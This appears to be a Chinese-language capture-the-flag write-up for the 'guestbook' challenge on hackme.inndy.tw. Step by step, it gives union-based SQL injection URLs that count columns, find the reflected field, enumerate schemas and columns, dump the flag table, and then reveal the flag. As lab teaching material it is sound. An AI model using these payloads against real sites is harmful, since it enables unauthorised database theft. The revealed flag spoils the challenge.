 guestbook
===

1. 透過 New Post 新增一筆資料
2. 在 Message List 下檢視剛新增的資料
3. 觀察 URL

```
https://hackme.inndy.tw/gb/?mod=read&id=124
```

1. 發現 `id` 可能為 SQLi 的注入點，嘗試確認欄位數。
```
https://hackme.inndy.tw/gb/
?mod=read
&id=124 order by 4%23-- -
```
2. 嘗試找出回顯位置。
```
https://hackme.inndy.tw/gb/
?mod=read
&id=-124 union select 1,2,3,4 %23-- -
```
3. 嘗試取得資料庫名稱
```
https://hackme.inndy.tw/gb/
?mod=read
&id=-124 union select 1,database(),group_concat(schema_name,'<br>'),4 from information_schema.schemata %23-- -
```
4. 取得資料表與欄位名稱
```
https://hackme.inndy.tw/gb/
?mod=read
&id=-124 union select 1,database(),group_concat(table_name, '::', column_name, '<br>'),4 from information_schema.columns where table_schema='g8'%23-- -
```
5. 取得 flag 欄位資料
```
https://hackme.inndy.tw/gb/
?mod=read
&id=-124 union select 1,database(),group_concat(flag, '::', padding0, '::', padding1 , '<br>'),4 from flag%23-- -
```
6. `FLAG{Y0U_KN0W_SQL_1NJECT10N!!!' or 595342>123123#}`